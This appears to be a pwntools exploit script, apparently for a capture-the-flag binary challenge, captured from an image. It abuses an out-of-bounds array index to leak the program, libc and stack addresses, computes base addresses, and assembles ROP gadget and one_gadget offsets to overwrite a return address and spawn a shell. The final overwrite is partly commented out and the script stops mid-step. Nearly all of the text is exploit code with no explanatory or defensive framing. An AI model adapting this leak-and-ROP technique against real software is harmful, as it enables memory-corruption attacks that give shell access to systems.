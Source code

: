 ```
ru = lambda data: p.recvuntil(data)
rl = lambda : p.recvline()
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''
        b*main+368
        b*main+542
        b*main+433
        b*scanf+198 
        b*main+628
        c
        ''')
        input()


if args.REMOTE:
    p = remote('')
else:   
    p = process([exe.path])
GDB()
# [rax*8 + rdx]
# Use oob at choice 1 can leak main address (idx: -11) and libc address (idx: -16) rbp leak (idx: -6)
sla(b'> ',b'1')
sla(b'idx: ',b'-11')
ru(b'index -11 is ')
main = int(rl())
info("Main leak: "+hex(main))
exe.address = main - 0x1682

sla(b'> ',b'1')
sla(b'idx: ',b'-16')
ru(b'index -16 is ')
libc_leak = int(rl())
info("Libc leak: "+hex(libc_leak))
libc.address = libc_leak - 0x29d90 

sla(b'> ',b'1')
sla(b'idx: ',b'-6')
ru(b'index -6 is ')
rbp = int(rl())
info("RBP leak: "+hex(rbp))

info("Exe base: "+hex(exe.address))
info("Libc base: "+hex(libc.address))


# Get shell
#Invest the scanf func, it will ret to the addr on stack at 0x7fffffffdd78 and it is idx -5
#So we'll ovww it by a addr of gadget
syscall = libc.address +0x29db4
prdi = libc.address + 0x2a3e5
prsi = libc.address + 0x2be51
ret = libc.address + 0x29139 
one = libc.address + 0xebc88
prcx_rbx = libc.address + 0x108b04

#get_shell = p64(ret) + p64(prsi) + p64(0) + p64(one)
# sla(b'> ',b'2')
# sla(b'idx: ',b'--2') # #idx = (adr[idx=0] - adr[adx=n])/8
# sla(b'Enter price: ',f'{ret}'.encode())

# sla(b'> ',b'2')
```